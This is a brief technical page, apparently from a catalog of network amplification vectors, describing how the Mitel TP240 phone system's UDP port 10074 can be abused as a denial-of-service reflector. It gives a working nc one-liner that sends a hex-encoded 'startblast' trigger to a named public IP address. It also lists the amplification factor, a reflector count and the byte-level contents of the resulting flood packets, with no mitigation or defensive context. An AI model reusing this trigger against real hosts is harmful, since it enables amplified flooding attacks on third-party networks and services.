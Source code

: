 # TP240 Mitel Phone System

## Port: **10074**

## Proto: **UDP**

## Data Amplification factor: **~8492 using 'call.startblast 2000 3'**

## Reflector count: ~1700

    
     echo -ne '\x63\x61\x6c\x6c\x2e\x73\x74\x61\x72\x74\x62\x6c\x61\x73\x74\x20\x32\x30\x30\x30\x20\x33\x00'| nc -u 31.121.28.76 10074
    
Startblast command requesting 2000 callbacks causes 4k packets yielding 552000 bytes received from a 23 byte payload.

- Start packet `3c74703234306476723e0a` aka `<tp240dvr>`

Packets come in sets of 2 after the initial packet notifying the start of the test

- Flood packet #1 `5374617274696e672043616c6c2c2043616c6c5f49443d207465737463616c6c5f302020` aka `Starting Call, Call_ID= testcall_0  `
- Flood packet #2 `2e2e2e6469616c696e6720330a` aka `...dialing 3`

Finally 4000 packets later
- End packet `3c2f74703234306476723e0a` aka `</tp240dvr>`

Be aware "Flood packet #1" is dynamic as the Call_ID field increments with each packet
